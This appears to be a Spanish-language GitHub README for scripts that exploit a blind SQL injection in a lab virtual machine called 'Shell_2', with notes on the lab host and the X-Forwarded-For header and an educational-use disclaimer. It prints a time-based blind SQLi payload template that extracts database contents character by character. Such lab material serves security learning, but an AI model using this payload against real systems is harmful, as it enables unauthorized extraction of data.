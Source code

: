 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

    El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
    Uso de encabezado `X-Forwarded-For`
    

## Impacto vulnerabilidad SQLi

### Procedimiento:

```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```

    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado que pueda causar impactos negativos. El propósito es y sólo es con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
